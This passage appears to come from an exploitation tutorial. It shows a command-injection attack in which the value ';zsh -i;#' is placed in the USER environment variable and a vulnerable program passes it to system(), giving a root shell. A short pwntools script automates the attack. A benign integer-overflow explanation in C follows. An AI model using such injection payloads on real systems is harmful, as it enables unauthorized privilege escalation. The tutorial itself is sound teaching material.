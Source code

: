```bash
❯ export USER=';zsh -i;#'

❯ ./main                 
about to call system("/bin/echo ;zsh -i;# is cool")
<SNIP>
❯ whoami                 
root
```

Writing the exploit we did in Python.

```python
#!/usr/bin/python3

from pwn import *

# Set USER environment variable to inject commands
env = {'USER': 'zsh -i;#'}

# Start a bash process with the injected environment
io = process('bash', env=env)

# Send the command to run your file
io.sendline('./file')

# Give interactive control to the user
io.interactive()
```
## 0x2 - Integer Overflow

```c
#include <stdio.h>

int main(){
	int num = 2147483647;
	printf("%d\n",num+1);
	return 0;

} 
```

Here is simple code that adds 1 in `2147483647`. Running it should give `2147483648` but:

```bash
❯ ./file            
-2147483648
```

The reason you get `-2147483648` instead of `2147483648` is because the `int` data type in C is a **32-bit signed integer** with a maximum value of `2147483647`. When you add 1 to this maximum, it causes an **integer overflow**, which wraps around to the minimum value `-2147483648` due to how signed integers are represented in two’s complement form. This overflow behavior leads to unexpected negative results instead of the mathematically correct larger number.
